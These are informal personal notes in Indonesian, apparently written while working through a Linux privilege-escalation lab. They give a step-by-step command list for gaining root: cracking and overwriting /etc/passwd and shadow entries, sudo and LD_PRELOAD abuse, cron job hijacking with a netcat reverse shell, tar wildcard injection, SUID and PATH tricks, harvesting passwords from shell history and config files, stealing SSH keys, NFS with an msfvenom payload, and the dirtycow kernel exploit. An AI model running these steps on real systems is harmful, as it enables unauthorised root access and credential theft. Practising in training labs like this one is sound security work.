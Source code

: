 1. ssh user@ip -oHostKeyAlgorithms=+ssh-rsa
2. pake sqliudf ->  /tools/mysqludf -> terus jalanin kayak di : https://www.exploit-db.com/exploits/1518
3. pake shadow -> cat /etc/passwd -> passwd nya itu antara (:) yang jumlahnya 1 -> abis itu pake john nanti nemu
- kalau udah su ke root, ganti passwd root baru -> mkpasswd -m sha-512 apadah -> vim /etc/passwd -> replace passwd lama nya
4. pake passwd -> openssl passwd paswordbalu -> pas dah generate edit /etc/passwd -> replace x nya -> su root pake passwd balu5. pake gtfo bins -> sudo -l -> cari apa aja yang di list yang bisa dijalanin sudo nopasswd -> cobain 1 1
6. pake preload -> gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
- kalau udah -> sudo LD_PRELOAD=/tmp/preload.so ygnopassswd-di-sudo-l-pathnya. prelod ama library beda
7. pakai cronjob -> cat etc/crontab -> locate overwrite.sh -> edit isi file bash nya -> nyalain nc port di file bash
- kalau ga jalan bash dulu file nya, kadang nyambung2 sendiri
8. cronjob path env -> buat overwrite.sh di path cat aja /etc/crontab ada path -> lakuin terus run yang di /tmp noh
9. cronjob wildcard -> cat /usr/local/bin/compress -> bikin shell pakai msfvenom command ada di file lain -> kirim aja pake httpserver
-> wget aja, terus nyalain nc port  nya -> di ssh touch /home/user/--checkpoint=1, touch /home/user/--checkpoint-action=exec=shell, run, ls aja
10. suid sgid executable known exploit -> run find nya -> analisis bin nya -> run exploit nya
11. suid-so -> run sambil grep -ie "open|access|no such file" -> terus ada .config mkdir dulu 
-> gcc in libcalc di tools kesitu -> run lagi suid-so nya
12. suid-env -> run path env nya -> strings path env -> gcc -o namafile sumberfile.c -> atur path PATH=.:$PATH /usr/local/bin/suid-env
13. suid-env2 -> strings dulu coba suid-env2 nya -> ada /service itu -> cek /bin/bash --version -> ada vuln nya 
-> ada function bash yang kudu dibuat -> cuman run /bin/bash -p kok -> export -> run service tadi
14. passwd and key: history -> cat ~/.*history | less -> ada . file klo ga percaya ls -la aja di home nya
-> semua yg di type keliatan disitu -> su aja
15. passwd and key: config files -> cat myvpn disitu -> ada path dir credentials nya di /etc -> cat aja
16. passwd abd key: ssh key -> ls -la / -> ls di .ssh nya -> pindahin key ke machinemu -> chmod 600 -> ssh -i pake key itu 
-> root@ip -> pake aja key tadi
17. nfs -> cek di target /etc.exports-> mkdir nfs di /tmp -> mount -o rw,verse ip:/tmp /tmp/dir -> upload msfvenom elf
 -> chmod xs dulu -> baru cek di target, /tmp/ -> run aja elf nya di target 
18. kernel exploits -> run perl ada script buat list cve kernel exploit -> gcc kernel/c0w.c -o c0w -> ./c0w
-> lanjut /usr/bin/passwd -> coba dulu -> mv pas jadi root /tmp/bak nya jadi binpasswd kek tadi
19. privilege escalation script -> di /tools ada -> linpeas linenum lse -> pakai aja itu ada beberapa ingfo -> ga auto root

